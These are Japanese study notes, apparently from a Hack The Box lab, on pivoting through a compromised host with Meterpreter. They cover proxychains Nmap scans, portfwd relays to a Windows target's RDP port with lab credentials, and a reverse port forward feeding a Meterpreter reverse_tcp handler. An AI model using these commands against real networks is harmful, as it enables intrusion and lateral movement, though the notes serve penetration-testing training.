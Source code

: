 ルートは172.16.5.0/23ネットワークに追加されました。プロキシチェーンを使用して、Meterpreterセッションを介してNmapトラフィックをルーティングできる

#### プロキシとルーティング機能のnmapによるテスト
```shell
snowyowl644@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

## ポート転送
- ポートフォワーディングは、Meterpreterの`portfwd`モジュールを使用して実行することもできる
- 攻撃ホストでリスナーを有効にし、Meterpreterセッションを介してこのポートで受信したすべてのパケットを172.16.5.0/23ネットワーク上の最終ターゲット(Windows Aなど)に転送するようにMeterpreterに要求できる

### ローカルTCPリレー
攻撃ホストのローカルポート3300でリスナーを起動し、ピボットホストを経由してWindowsターゲット（172.16.5.19）のRDPポート3389に転送 することができる
```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

ローカルホストを介してWindowsターゲットに接続
```shell-session
snowyowl644@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

Netstatを使用して、最近設定したセッションに関する情報を表示できる
防御的な観点から、ホストが侵害された疑いがある場合は、Netstatを使用することでメリットがある
```shell-session
snowyowl644@htb[/htb]$ netstat -antp
```

### Meterpreter リバースポートフォワーディング
ピボットリストを介したターゲット(WIndowsA)とのリバースシェルの確立

リバースポートフォワーディングの設定
```sh
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
コマンドの意味
- `-R` → リバースポートフォワーディングを有効化
- `-l 8081` → 攻撃ホストのローカルポート8081 で受信
- `-p 1234` → Ubuntuピボットホストのポート1234 で受信するトラフィックを転送
- `-L 10.10.14.18` → 転送先（攻撃ホストのIP）

Metasploitリスナーの設定
```sh
meterpreter > bg
[*] Backgrounding session 1...

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```
